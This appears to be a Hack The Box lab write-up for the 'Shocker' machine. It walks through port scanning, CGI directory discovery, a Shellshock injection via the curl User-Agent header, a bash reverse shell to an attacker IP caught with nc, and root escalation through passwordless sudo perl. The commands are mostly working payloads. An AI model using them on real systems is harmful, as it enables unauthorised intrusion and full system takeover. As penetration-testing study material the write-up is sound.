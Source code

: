 # recon
- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
2222 -> rabbit hole...

## gobuster 
- /
```
/cgi-bin/ (Status: 403)
/cgi-bin/.html (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```
- /cgi-bin/ since it is a linux then looking for .sh
```
user.sh
```
when GET / -> return
```

Content-Type: text/plain

Just an uptime test script

 10:15:49 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
```
shocker??? -> shell shock.

looking at this 
- https://github.com/s4n7h0/NSE/blob/master/http-shellshock.nse
- https://book.hacktricks.xyz/pentesting/pentesting-web/cgi#shellshock

try it out.
```
kali@kali:~/HTB/shocker$ curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://shocker.htb/cgi-bin/user.sh 2>/dev/null
VULNERABLE TO SHELLSHOCK

Content-Type: text/plain

Just an uptime test script

 10:15:49 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
```

# foot hold

the victim server is vulnerable to shell shock. so let try to craft a bash reverse shell

```
kali@kali:~/HTB/shocker$ curl -H 'User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.8/6969 0>&1' http://shocker.htb/cgi-bin/user.sh 2>/dev/null
```
nc listen to port 6969
```
kali@kali:~/HTB/shocker$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.56] 33820
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```
go grab user flag

# root

run `linpeas.sh`
```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

**GTFObin**: sudo perl -e 'exec "/bin/bash";'

```
shelly@Shocker:/home/shelly$  sudo perl -e 'exec "/bin/bash";'
 sudo perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
whoami
root
```
go grab root flag.